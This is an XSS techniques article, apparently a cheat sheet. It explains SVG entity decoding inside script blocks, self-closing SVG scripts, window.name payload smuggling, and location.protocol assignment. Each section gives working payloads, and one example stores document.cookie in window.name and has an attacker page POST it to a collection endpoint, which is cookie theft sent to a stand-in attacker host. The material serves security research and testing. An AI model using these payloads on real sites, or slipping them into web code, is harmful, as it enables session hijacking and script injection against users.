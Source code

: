 You might think that correctly escaping characters can prevent XSS inside script blocks. However, inside SVG, it's different because SVG is an XML format. HTML entities are rendered inside, and when decoded by SVG, JavaScript will get the correct unencoded characters:

```html
<svg>
<script>let foo = "&quot;-alert(1)///";</script>
</svg>
```

## Script Without Closing Script

Contrary to popular belief, you don't always need a closing script tag when using a script block, at least in Firefox. If you use SVG, you can have a self-closing script:

```html
<svg><script href=data:,alert(1) />
```

Use the `href` attribute because you're inside SVG, and the `src` attribute isn't supported there.

## Window Name Payloads

Another common XSS trick is using `window.name` to smuggle payloads to other domains or pages. Although browsers are cracking down on this by removing the name for top-level cross-domain navigations, it still works using iframes:

```html
<iframe src=//target name=alert(1)></iframe>
<!-- target -->
<script>eval(name)</script>
```

You can even smuggle cookies and retrieve them when the page navigates to a page you control:

```html
<script>name=document.cookie</script>
<a href="//attacker">test</a>
<!-- Attacker controlled page -->
<script>fetch('/collect-cookie', {method:"post", body:name})</script>
```

## Assignable Protocol

A more recent discovery is using the `protocol` property of the `location` object to conceal a payload. This is an improvement on `window.name` payloads because it doesn't require a separate page. Simply assign "javascript" to the `protocol` property, and because the URL is treated as JavaScript with `http://` as a comment, you can use a newline in the hash or query string to execute arbitrary JavaScript:

```javascript
location.protocol='javascript'
```

```html
foo.html#%0aalert(1337)
```
